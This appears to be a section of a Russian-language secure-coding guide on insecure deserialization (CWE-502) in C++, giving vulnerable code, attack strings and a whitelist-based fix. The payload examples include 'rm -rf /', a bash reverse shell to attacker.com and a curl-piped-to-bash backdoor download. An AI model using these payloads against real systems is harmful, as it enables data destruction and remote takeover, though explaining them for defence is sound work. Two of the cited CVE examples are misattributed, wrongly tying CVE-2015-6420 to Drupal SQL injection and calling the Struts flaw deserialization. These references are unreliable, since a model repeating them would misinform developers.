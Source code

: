 ### 4. Insecure Deserialization (CWE-502)

**Описание**: Небезопасная десериализация команд позволяет выполнить произвольный код.

**Механизм атаки**:
```cpp
// УЯЗВИМЫЙ КОД
class SerializableCommand {
    static Command* deserialize(const std::string& data) {
        std::string type = data.substr(0, data.find('|'));
        std::string payload = data.substr(data.find('|') + 1);
        
        // ОПАСНО: Создание объекта по строке без валидации!
        if (type == "system") {
            return new SystemCommand(payload);  // RCE!
        }
    }
};

// Атака
std::string malicious = "system|rm -rf /";
auto cmd = deserialize(malicious);
cmd->execute();  // RCE!
```

**Payload примеры**:
```
type|payload
system|/bin/bash -i >& /dev/tcp/attacker.com/4444 0>&1
eval|__import__('os').system('whoami')
exec|curl attacker.com/backdoor.sh | bash
```

**Последствия**:
- **Remote Code Execution**
- **Server-Side Request Forgery (SSRF)**
- **Denial of Service**

**CVE примеры**:
- CVE-2017-5638 (Apache Struts): Deserialization RCE
- CVE-2015-6420 (Drupal): SQL injection via serialized data

**Решение**:
```cpp
class SecureDeserializer {
    // Whitelist типов
    static const std::map<std::string, CommandFactory> ALLOWED_TYPES = {
        {"print", PrintCommandFactory},
        {"log", LogCommandFactory}
    };
    
    static Command* deserialize(const std::string& data) {
        auto [type, payload] = split(data);
        
        // Строгая проверка типа
        if (ALLOWED_TYPES.find(type) == ALLOWED_TYPES.end()) {
            throw DeserializationError("Unknown type: " + type);
        }
        
        // Валидация payload
        if (!validatePayload(payload)) {
            throw DeserializationError("Invalid payload");
        }
        
        return ALLOWED_TYPES.at(type).create(payload);
    }
};
```